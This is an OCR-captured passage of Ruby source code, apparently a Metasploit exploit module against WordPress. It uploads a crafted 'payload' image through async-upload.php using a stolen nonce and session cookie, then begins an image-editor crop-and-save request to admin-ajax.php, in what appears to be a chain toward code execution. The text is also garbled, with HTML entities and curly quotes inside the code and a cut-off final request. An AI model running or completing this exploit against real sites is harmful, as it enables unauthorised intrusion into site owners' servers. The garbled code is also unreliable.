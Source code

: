 post_data &lt;&lt; "--#{boundary}\r\n"
post_data &lt;&lt; "Content-Disposition: form-data; name=\"_wpnonce\"\r\n"
post_data &lt;&lt; "\r\n#{wp_nonce}\r\n"
post_data &lt;&lt; "--#{boundary}\r\n"
post_data &lt;&lt; "Content-Disposition: form-data; name=\"async-upload\"; filename=\"#{img_name}\"\r\n"
post_data &lt;&lt; "Content-Type: image/jpeg\r\n"
post_data &lt;&lt; "\r\n#{img_data}\r\n"
post_data &lt;&lt; "--#{boundary}--\r\n"
print_status("Uploading payload")
upload_uri = normalize_uri(datastore['TARGETURI'], 'wp-admin', 'async-upload.php')

res = send_request_cgi(
  'method'   =&gt; 'POST',
  'uri'      =&gt; upload_uri,
  'ctype'    =&gt; "multipart/form-data; boundary=#{boundary}",
  'data'     =&gt; post_data,
  'cookie'   =&gt; cookie
)
fail_with(Failure::UnexpectedReply, 'Unable to upload image') unless res &amp;&amp; res.code == 200 &amp;&amp; res.body &amp;&amp; !res.body.empty?
print_good("Image uploaded")
res = JSON.parse(res.body)
image_id = res["data"]["id"]
update_nonce = res["data"]["nonces"]["update"]
filename = res["data"]["filename"]
return filename, image_id, update_nonce 
```

end

def image_editor(img_name, ajax_nonce, image_id, cookie)

uri = normalize_uri(datastore[‘TARGETURI’], ‘wp-admin’, ‘admin-ajax.php’)

res = send_request_cgi(

‘method’    => ‘POST’,

‘uri’       => uri,

‘cookie’ => cookie,

‘vars_post’  => {

‘action’ => ‘image-editor’,

‘_ajax_nonce’ => ajax_nonce,

‘postid’ => image_id,

‘history’ => ‘[{“c”:{“x”:0,“y”:0,“w”:400,“h”:300}}]’,

‘target’ => ‘all’,

‘context’ => ‘’,

‘do’ => ‘save’

}

)

```